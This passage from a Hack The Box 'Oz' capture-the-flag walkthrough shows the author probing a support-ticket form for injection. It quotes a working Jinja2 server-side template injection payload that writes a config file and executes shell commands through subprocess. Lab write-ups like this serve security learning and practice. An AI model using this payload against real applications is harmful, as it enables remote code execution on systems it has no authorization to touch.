 Now that I have access to GBR Support, notice that it allows the creation of new tickets. Perhaps I can inject one of the fields?

<a class="image-popup">
![9ae85046.png](/assets/images/posts/oz-htb-walkthrough/9ae85046.png)
</a>

I found a GitHub [repository](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections) with a Jinja2 RCE payload like so.

```
{% raw %}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}
{{ config['RUNCMD']('<shell command>',shell=True) }}
{% endraw %}
```


[1]: https://www.hackthebox.eu/home/machines/profile/152
[2]: https://www.hackthebox.eu/home/users/profile/442
[3]: https://www.hackthebox.eu/home/users/profile/2686
[4]: https://www.hackthebox.eu/